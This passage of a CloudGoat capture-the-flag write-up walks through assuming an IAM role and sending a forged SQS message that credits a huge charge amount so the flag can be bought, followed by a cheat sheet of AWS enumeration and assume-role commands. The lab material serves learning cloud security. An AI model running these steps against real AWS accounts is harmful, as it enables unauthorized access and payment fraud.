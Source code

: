 # Abuse SQS

Start by setting up a profile for that role by doing a simple `aws configure --profile sqssuper` and passing in the normal values (region is still `us-east-1` and format as `json`). But you'll need to add that long token using `aws configure set profile.sqssuper.aws_session_token PASTEVALUEHERE`. Run a quick `aws sts get-caller-identity --profile sqssuper` before moving on.

We'll need to grab the queue url first, but how? The aws documentation [here](https://docs.aws.amazon.com/cli/latest/reference/sqs/) has all the commands we will need. The first command is `aws sqs get-queue-url --profile sqssuper --queue-name cash_charging queue`. That should give you a url to use. 

Now we can check the documentation again, and you'll notice you can send the message using something like `aws sqs send-message --profile sqssuper --queue-url https://sqs.us-east-1.amazonaws.com/381491899745/cash_charging_queue --message-body '{"charge_amount" : 100000000}'`. Running that should give you the extra assets we need. 

# Grabbing the flag

Now head back to the website, and refresh if needed. You should now have enough assets to purchase the flag! After purchasing, just visit the receipts page and you'll see your flag. And we're done!

# Conclusion

This was a nice concluding lab for this section, where we had to do some basic web recon along with learning another amazon service. We started by searching through source code, finding the back-end code, then assumed a role and sent a message giving us plenty of assets. This lab shows how it's important to secure services so that only authorized users can call them. 

*Don't forget to destroy your lab after! This lab does take a while (~10 minutes). The first time I tried, it got stuck and was unable to destroy it. If this happens, cancel the current cloudgoat call by calling control/command + c, and then head to the AWS Web console. Then search for the component that wasn't being destroyed (eg. VPC, Security Group, etc ). Some require other resources to be destroyed first (I needed to destroy my VPC). Then you should run the command once more to ensure your local data is destroyed and any remnants are removed.* 

```bash
cloudgoat destroy sqs_flag_shop
```

# Cheat Sheet

To close off, here's a quick summary of the commands we needed to run to complete this module. If you're ever coming back to this and just need that one command, this is the section to check.

```bash
#Start Up
cloudgoat create sqs_flag_shop
aws configure --profile sqsuser

#Website analysis

#Enumerate environment
aws sts get-caller-identity --profile sqsuser
aws iam list-user-policies --user-name cg-sqs-user-cgid8as1kkguen --profile sqsuser   
aws iam get-user-policy --user-name cg-sqs-user-cgid8as1kkguen --policy-name cg-sqs-scenario-assumed-role --profile sqsuser

#Look into the role
aws sts assume-role --role-arn arn:aws:iam::381491899745:role/cg-sqs-send-message-cgid8as1kkguen --role-session-name hacker --profile sqsuser
aws iam list-role-policies --role-name cg-sqs-send-message-cgid8as1kkguen --profile sqsuser 
        "cg-sqs"
```